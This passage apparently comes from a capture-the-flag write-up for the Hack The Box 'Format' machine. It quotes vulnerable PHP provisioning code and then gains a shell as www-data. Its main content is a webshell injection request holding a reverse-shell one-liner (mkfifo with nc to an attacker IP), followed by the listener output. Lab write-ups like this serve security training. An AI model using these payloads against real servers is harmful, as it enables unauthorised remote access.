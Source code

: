 ![[Pasted image 20230518001045.png]]
##### shell as www-data

```php
#http://microblog.htb:3000/cooper/microblog/src/branch/main/microblog/app/index.php

function isPro() {
    if(isset($_SESSION['username'])) {
        $redis = new Redis();
        $redis->connect('/var/run/redis/redis.sock');
        $pro = $redis->HGET($_SESSION['username'], "pro");
        return strval($pro);
    }
    return "false";
}

```

```php
#http://microblog.htb:3000/cooper/microblog/src/branch/main/microblog/sunny/edit/index.php
function provisionProUser() {
    if(isPro() === "true") {
        $blogName = trim(urldecode(getBlogName()));
        system("chmod +w /var/www/microblog/" . $blogName);
        system("chmod +w /var/www/microblog/" . $blogName . "/edit");
        system("cp /var/www/pro-files/bulletproof.php /var/www/microblog/" . $blogName . "/edit/");
        system("mkdir /var/www/microblog/" . $blogName . "/uploads && chmod 700 /var/www/microblog/" . $blogName . "/uploads");
        system("chmod -w /var/www/microblog/" . $blogName . "/edit && chmod -w /var/www/microblog/" . $blogName);
    }
    return;
}

```
Với tài khoản pro, chúng ta có thể chèn webshell. 
```bash
id=/var/www/microblog/hacker/uploads/rev.php&header=<?php echo shell_exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.16.20 4545 >/tmp/f");?>
http://hacker.microblog.htb/uploads/miao.php
```
Browser  http://hacker.microblog.htb/uploads/rev.php to get revserse shell
```bash
┌─[loc@parrot]─[~/HackTheBox/Medium/Format]
└──╼ $nc -lvnp 4545
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::4545
Ncat: Listening on 0.0.0.0:4545
Ncat: Connection from 10.10.11.213.
Ncat: Connection from 10.10.11.213:43864.
sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ 
```
